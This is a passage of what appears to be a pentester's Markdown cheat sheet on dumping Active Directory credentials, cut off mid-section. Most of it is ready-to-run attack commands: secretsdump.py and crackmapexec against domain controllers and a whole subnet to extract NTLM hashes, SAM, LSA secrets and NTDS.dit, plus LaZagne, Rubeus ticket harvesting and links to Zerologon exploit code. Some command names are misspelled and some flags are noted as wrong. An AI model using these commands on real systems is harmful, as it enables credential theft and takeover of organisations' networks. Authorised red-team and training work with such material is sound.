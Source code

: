 ```bash

## extract them automatically using a valid domain admin user
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

#### Crackmapexec -- check later
+ crackmapexec dump, ?

```bash
# dump sam hash
## from sam, only local hash.
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# dump lsa secrets
## could got cleartext password, from lsass.exe
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# Dump the NTDS.dit from target DC
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# Dump the NTDS.dit password history from target DC
## --ntds-history, wrong argument
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history

# Show the pwdLastSet attribute for each NTDS.dit account;
## --ntds-pwdLastSet, wrong argument
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

#### Lazagne
+ extract credentials from several software.[binary and pip](https://github.com/AlessandroZ/LaZagne)

```bash
lazagne.exe all
```


**Rebeus harvest**
+ rebeus, harvesting gathers tickets that are transferred to the KDC and saves them for use in other attacks, such as pass the ticket.
+ https://github.com/GhostPack/Rubeus

```bash
## /interval, harvest for TGTs every 30 seconds.
rebeus.exe harvest /interval:30

```

### AD exp

#### Zerologon
+ cve-2020-1472, [github exploit](https://github.com/dirkjanm/CVE-2020-1472)
+ test script, [](https://github.com/SecuraBV/CVE-2020-1472)
+ effected version: 
